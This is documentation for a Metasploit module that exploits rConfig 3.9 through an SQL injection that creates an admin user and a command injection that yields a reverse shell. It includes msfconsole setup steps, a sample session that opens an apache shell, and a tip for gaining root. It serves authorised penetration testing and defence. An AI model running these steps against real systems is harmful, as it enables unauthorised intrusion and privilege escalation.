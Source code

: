 ## Vulnerable Application
This module exploits multiple vulnerabilities in rConfig version 3.9 and prior in order to execute arbitrary commands.

The module first add a temporary admin user to the application by exploiting an SQL injection (CVE-2020-10220).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `path` parameter of the ajaxArchiveFiles functionality within the rConfig web interface (CVE-2019-19509).

The module works with HTTP or HTTPS (both were tested) but the application does redirection via php code so SSL is enabled by default (and should be used). Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via SQLI. This module has been successfully tested on rConfig 3.9.2 and 3.9.4.

Tips : once you get a shell, look at the CVE-2019-19585. You will probably get root because rConfig install script add Apache user to sudoers with nopasswd ;-)

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. `use exploit/linux/http/rconfig_ajaxarchivefiles_rce`
4. `set RHOSTS target_ip`
5. `set RPORT target_port`
6. `set LHOST your_ip`
7. `set LPORT your_port`
8. `set verbose true`
9. `exploit -j`

## Scenarios
```
msf exploit(linux/http/rconfig_ajaxarchivefiles_rce) > show options

Module options (exploit/linux/http/rconfig_ajaxarchivefiles_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to Rconfig
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set RHOSTS 1.1.1.1
RHOSTS => 1.1.1.1
msf exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set LHOST 1.1.1.2
LHOST => 1.1.1.2

msf exploit(linux/http/rconfig_ajaxarchivefiles_rce) > 
[+] rConfig version 3.9 detected
[+] New temporary user 6QpO8mLt created
[+] Authenticated as user 6QpO8mLt
[*] Command shell session 1 opened (1.1.1.2:4444 -> 1.1.1.1:34586) at 2020-03-10 22:26:46 +0100
[+] Command successfully executed
[*] User 6QpO8mLt removed successfully !

msf exploit(linux/http/rconfig_ajaxarchivefiles_rce) > sessions -i 1
[*] Starting interaction with 1...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
## References
1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19509>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-10220>
3. <https://www.exploit-db.com/exploits/47982>
4. <https://www.exploit-db.com/exploits/48208>
5. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py>
6. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py>
